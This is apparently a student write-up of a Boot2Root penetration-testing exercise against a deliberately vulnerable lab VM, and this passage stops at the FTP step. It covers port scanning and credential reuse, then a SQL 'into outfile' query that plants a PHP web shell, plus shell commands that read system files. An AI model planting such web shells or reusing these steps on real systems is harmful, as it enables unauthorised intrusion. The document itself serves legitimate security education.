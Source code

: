 # Boot2Root Writeup 1
> Summary: This project is an introduction to system penetration.

> After all your efforts you will finally be able to have fun! This project is therefore a basis for making you understand how you must proceed to penetrate a system over which you have legal rights. I strongly urge you to use all available methods to really break this iso. The correction will be limited but your ability to be able to use your iso will be greatly rewarded for you, especially beyond your score.

### Step 1 : Find the Virtual machine IP address and open ports
Using `nmap` we can scan the local network to find the virtual machine's IP
In our case the ip was
- `10.11.100.242`

After scanning that IP using nmap we see multiple open ports.
```
Nmap scan report for 10.11.100.242
Host is up (0.0073s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
### Step 2 : Find an entrypoint on the website

After using dirbuster to find subdirectories on `https://10.11.100.242`
We find the following links:
- https://10.11.100.242/forum/
- https://10.11.100.242/phpmyadmin/
- https://10.11.100.242/webmail/

PLEASE INSERT IMAGES HERE
#### Getting access to the forum
While browsing the forum, we find a connection log posted as a post
A user mistakenly entered his password in the username field

INSERT FORUM ARTICLE PASSWORD IMAGE HERE

We try using this password for the user `lmezard`, also appearing in the logs.
And we get access to `lmezard`'s forum account with the credentials
- `lmezard`
- `!q\]Ej?*5K5cy*AJ`

#### Getting access to SquirrelMail
Whe then find an email linked to `lmezard`'s account on the forum
We guess `lmezard` is maybe using the same password with both account
Which is the case, so we get access to `lmezard`'s `squirrelMail` using credentials :
- `laurie@borntosec.net`
- `!q\]Ej?*5K5cy*AJ`

#### Getting access to phpMyAdmin
On `squirrelMail` we find a very important email :
```
Subject:  	DB Access
From:  	qudevide@mail.borntosec.net
Date:  	Thu, October 8, 2015 11:25 pm
To:  	laurie@borntosec.net
Priority:  	Normal
Options:  	View Full Header |  View Printable Version  | Download this as a file

Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
From which we get the username and password to `phpMyAdmin`
- `root`
- `Fg-'kKXBj87E:aJ$`

#### Using phpMyadmin to inject commands
We can run custom `SQL` queries from `phpMyAdmin`
And we can read and write into files as the user `www-data`
So I crafted a custom `SQL` query that will create a php file,
exposed on `https://10.11.100.242/forum/templates_c/shell.php`
Here is the `SQL` query:
```SQL
select "<form action=''><input type='text' name='cmd' value='<?php echo $_GET['cmd'];?>'/><input type='submit'/></form></br><?php $output = shell_exec($_REQUEST['cmd']); echo '<textarea rows=100% cols=100%>'.$output.'</textarea>' ?>" into outfile "/var/www/forum/templates_c/shell.php";
```
This added php file will be executed and will allow us to send our custom shell commands to be executed and the result returned.

We want to see what users are present in the machine
We can either `cat /etc/passwd` or `ls /home/`

When we `ls /home/` we can find a directory called `LOOKATME` inside of which there is a file `password`
`cat /home/LOOKATME/password` will give us `lmezard:G!@M6f4Eatau{sF"`
So we can now log into lmezard user
- `lmezard`
- `G!@M6f4Eatau{sF"`

But these credentials won't work on `ssh`, so they must be for something else, so we try logging in as `lmezard` using `ftp`.